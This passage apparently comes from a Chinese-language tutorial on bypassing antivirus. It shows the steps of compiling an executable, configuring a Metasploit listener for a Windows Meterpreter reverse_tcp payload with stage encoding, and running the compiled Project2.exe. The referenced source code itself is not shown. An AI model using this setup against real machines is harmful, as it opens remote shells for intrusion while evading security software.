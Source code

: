 
然后编译生成exe

![3955356a1519473310c10b21c8ec1a8d](images/2020.03-bypass-03/5.png)

在msf中进行监听

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.211.55.2
set LPORT 3333
set EnableStageEncoding true
```

然后执行生成的`Project2.exe`

![7f156195f51ea2f34c9ce07251021460](images/2020.03-bypass-03/6.png)

